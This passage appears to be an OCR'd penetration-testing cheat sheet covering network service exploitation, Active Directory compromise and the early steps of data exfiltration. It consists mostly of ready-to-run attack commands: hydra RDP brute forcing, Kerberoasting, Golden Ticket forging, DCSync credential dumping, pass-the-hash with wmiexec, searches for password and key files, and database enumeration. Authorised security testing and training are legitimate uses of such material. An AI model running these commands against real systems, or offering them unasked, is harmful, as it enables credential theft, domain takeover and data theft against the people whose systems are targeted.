 #### **Network Service Exploitation**
```bash
# RDP brute force and connection
hydra -L users.txt -P passwords.txt rdp://target.com
rdesktop target.com

# VNC exploitation
vncviewer target.com::5901

# Telnet exploitation  
telnet target.com 23
```

### **Phase 8.2: Domain Compromise**

#### **Active Directory Attacks**
```bash
# Kerberoasting
python3 GetUserSPNs.py domain.local/username:password -dc-ip 192.168.1.1 -request

# Golden Ticket attack (requires krbtgt hash)
python3 ticketer.py -nthash [krbtgt_hash] -domain-sid [domain_sid] -domain domain.local administrator

# DCSync attack
python3 secretsdump.py domain.local/username:password@dc.domain.local

# Pass-the-Hash attacks
python3 wmiexec.py -hashes :ntlmhash domain/username@target.com
```

---

## Data Exfiltration

### **Phase 9.1: Data Discovery**

#### **Sensitive File Discovery**
```bash
# Linux sensitive files
find / -name "*password*" 2>/dev/null
find / -name "*credential*" 2>/dev/null  
find / -name "*.key" 2>/dev/null
grep -r "password" /var/log/ 2>/dev/null

# Windows sensitive files
dir C:\Users\*\Desktop\*.txt /s
dir C:\Users\*\Documents\*.pdf /s
findstr /si "password" C:\Users\*\*.txt
```

#### **Database Enumeration**
```bash
# MySQL enumeration
mysql -u root -p -h target.com
    > SHOW DATABASES;
    > USE database_name;
    > SHOW TABLES;

# PostgreSQL enumeration
psql -h target.com -U postgres
    \l     # List databases
    \dt    # List tables

```